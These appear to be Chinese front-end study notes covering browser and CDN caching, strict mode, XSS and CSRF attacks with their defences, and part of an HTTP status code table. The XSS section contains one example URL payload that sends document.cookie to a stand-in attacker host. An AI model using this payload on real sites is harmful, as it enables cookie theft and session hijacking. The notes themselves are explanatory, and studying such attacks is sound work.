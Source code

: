 #### CDN
1.浏览器缓存
1.1expires
1.2Cache-Control
1.3Last-Modified
1.4etag
1.5额外的标签
2.CDN边缘节点缓存

#### 严格模式use strict
1.全局变量必须声明
2.禁止this指向全局（函数声明的this 为 undefined）
3.只有configable设置为true的可使用delete
4.不允许变量重名
5.不允许对只读属性赋值
6.不允许width语法
7.保留关键字

#### 前端安全
1.xss:跨站脚本攻击
 在页面嵌入客户端脚本，脚本在浏览器执行（如获取cookie）
1.1 攻击场景 
1.1.1dom-based xss
利用在url中插入js脚本获取信息。如`http://victim.com/search.asp?term=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>`
在控制台给dom绑定事件获取信息。
1.1.2stored xss
将攻击脚本上传到服务器（表单提交）
1.2修复
1.2.1将cookie设为http only
1.2.2只允许用户输入期望值，给input设type
1.2.3对数据进行html encode
1.2.4过滤特殊html标签
1.2.5过滤事件标签，如onclick  onfocus

2.csrf跨站请求伪造
2.1攻击模式
CSRF攻击是源于WEB的隐式身份验证机制！WEB的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的。（获取用户数据再去发送请求）
2.2防御
2.2.1 服务端
2.2.1.1cookie hash
返回cookie时，增加伪随机数setcookie(”cookie”, $value, time()+3600);
在表单中提交cookie;
服务端验证;
2.2.1.2 验证码
提交表单时增加验证码
2.2.1.3 one-time tokens 给表单返回一个随机数
2.2.1.4 服务器核对令牌

#### http状态码
|状态码|具体意义|
|:---:|:---:|
|100-199|客户端相应动作|
|100|客户端可以继续|
|200-299|请求成功|
|200|成功|
|300-399|已移动的文件且被包含在定位信息中指定新的地址信息|
|301|永久移动|
|302|临时移动|